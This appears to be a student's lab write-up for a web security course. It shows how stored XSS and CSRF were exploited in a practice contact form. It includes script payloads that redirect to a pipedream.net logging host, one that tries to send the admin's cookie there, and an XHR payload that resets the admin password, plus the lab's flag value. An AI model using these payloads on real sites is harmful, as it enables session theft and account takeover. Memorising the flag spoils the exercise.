 # SLH lab 1

## 2 Basic CSRF

### 2.1. The website is also vulnerable to an XSS. How can you detect it?

Using *pipedream.com*, we log the requests that are sent to `https://eobnzz43rvm4g8a.m.pipedream.net`

In the contact form, we send this message :

```
<script>window.location.href = "https://eobnzz43rvm4g8a.m.pipedream.net?bonjour=bonjour";</script>
```

In pipedream we see that a request was received with the param `bonjour=bonjour`, so we know that the script in our message was sent by the vulnerable server to the admin.

### 2.2. Try to exfiltrate the admin cookie with the XSS. It does not work because of http-only. Explain what is http-only and how it prevents the exfiltration.

In the contact form, we send this message :

```
<script>window.location.href = "https://eobnzz43rvm4g8a.m.pipedream.net?cookie="+document.cookie;</script>
```

But we don't receive anything in pipedream.

Http-only is a flag that the server can set when giving a cookie to a client. A http-only cookie will be provided by the client when it sends requests to the server, but is not accessible by the javascript executed by the client.

Consequentially, even if an attacker is able to control the javascript that is executed by a client, the attacker script will not be able to access the cookie.

### 2.3. The website is also vulnerable to a CSRF. Which script is vulnerable?

The script on the server for changing the password. When changing password, the client simply sends a POST request with his session cookie and the new password.

### 2.4. What is the flag of this challenge?

`f_J[w[4LY^^N7*Xe`

### 2.5. How did you obtain the flag? Describe clearly your attack. In particular, explain where the XSS is and what type of XSS it is

Using our own account, we change our password to "1234" and display the POST request using the developer tools.

We see that
- The request is sent to `/profile/damien.maier@heig-vd.ch`
- The request has a header `Content-type: application/x-www-form-urlencoded`
- The POST payload is `password=1234`

In the contact form, we send this message :
```
<script>
    var url = "/profile/damien.maier@heig-vd.ch_admin";
    var params = "password=1234";
    var xhr = new XMLHttpRequest();
    xhr.open("POST", url, true);
    
    xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
    
    xhr.send(params);
</script>
```
When displaying the message, the admin browser will execute this script. The script sends a POST request with the appropriate header and payload to set the admin password to "1234".
As the script is executed in the admin's browser, the POST request will be sent with the session cookie of the admin.